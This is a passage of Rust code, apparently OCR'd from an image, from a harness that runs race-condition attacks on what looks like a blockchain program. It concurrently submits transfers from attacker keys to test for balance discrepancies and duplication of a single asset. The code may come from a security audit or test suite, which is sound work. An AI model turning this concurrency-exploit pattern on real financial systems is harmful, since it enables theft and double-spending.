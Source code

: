 ```rust
        std::thread::sleep(self.coordination_delay);

        let mut results = Vec::new();
        for handle in handles {
            results.push(handle.join().unwrap());
        }

        // Check if race condition was exploited
        let final_balance = self.get_account_balance(target_account)?;
        let expected_balance = self.get_expected_balance(target_account)?;

        AttackResult {
            race_condition_detected: final_balance != expected_balance,
            balance_discrepancy: final_balance.abs_diff(expected_balance),
            successful_exploits: results.iter().filter(|r| r.is_ok()).count(),
            failed_attempts: results.iter().filter(|r| r.is_err()).count(),
        }
    }

    pub fn execute_asset_duplication_attack(&self) -> Result<AssetDuplicationResult> {
        let asset_id = 12345;
        let source_account = &self.attacker_keys[0].pubkey();
        let target_accounts = vec![
            self.attacker_keys[1].pubkey(),
            self.attacker_keys[2].pubkey(),
        ];

        // Attempt to transfer same asset to multiple accounts simultaneously
        let mut handles = Vec::new();

        for target in target_accounts {
            let source = *source_account;
            let handle = std::thread::spawn(move || {
                create_asset_transfer_instruction(source, target, asset_id)
            });
            handles.push(handle);
        }

        let results: Vec<_> = handles.into_iter().map(|h| h.join().unwrap()).collect();

        // Check if asset was duplicated
        let asset_locations = self.find_asset_locations(asset_id)?;

        AssetDuplicationResult {
            duplication_successful: asset_locations.len() > 1,
            asset_copies: asset_locations.len(),
            affected_accounts: asset_locations,
        }
    }
}
```
